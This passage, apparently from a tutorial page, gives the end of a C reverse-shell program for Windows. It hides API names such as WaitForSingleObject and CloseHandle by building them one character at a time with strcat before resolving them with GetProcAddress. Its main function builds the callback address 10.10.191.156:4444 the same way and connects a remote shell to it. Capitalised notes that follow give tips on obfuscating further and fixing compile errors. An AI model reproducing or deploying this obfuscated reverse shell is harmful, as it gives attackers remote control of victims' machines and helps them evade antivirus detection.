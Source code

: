 ```c
			strcat(func9,"e");
			strcat(func9,"c");
			strcat(func9,"t");
			myNotWaitForSingleObject notWaitForSingleObject = (myNotWaitForSingleObject) GetProcAddress(hkernel32,func9); // GetProcAddress(hkernel32,"WaitForSingleObject");
            notWaitForSingleObject(pinfo.hProcess, INFINITE);

			char func10[] = "C";
			strcat(func10,"l");
			strcat(func10,"o");
			strcat(func10,"s");
			strcat(func10,"e");
			strcat(func10,"H");
			strcat(func10,"a");
			strcat(func10,"n");
			strcat(func10,"d");
			strcat(func10,"l");
			strcat(func10,"e");
			myNotCloseHandle notCloseHandle = (myNotCloseHandle) GetProcAddress(hkernel32,func10);
            notCloseHandle(pinfo.hProcess);
            notCloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
	    char host[] = "10";
        strcat(host,".10");
        strcat(host,".191");
        strcat(host,".156");
        int port = 4444;
        RunShell(host, port);
    }
    return 0;
} 
```

**NOTE**: IF YOU WANT TO OBFUSCATE `GETPROCADDRESS` IN HERE, YOU HAVE TO CREATE YOUR OWN IMPLEMENTATION OF IT!

**NOTE 2:** IF YOU DONT WANT ERRORS ON `WSACONNECT`, IN THE PROTOTYPE, SET "`CONST STRUCT SOCKADDR *NAME`" INSTEAD OF "`CONST SOCKADDR *NAME`".

**NOTE 3:** DON'T USE `WINAPI` WHEN YOU'RE CREATING A VARIABLE WITH `TYPEDEF`, YOU USE `WSAAPI` INSTEAD. LIKE THIS:

![](/assets/img/Pasted image 20230117234416.png)
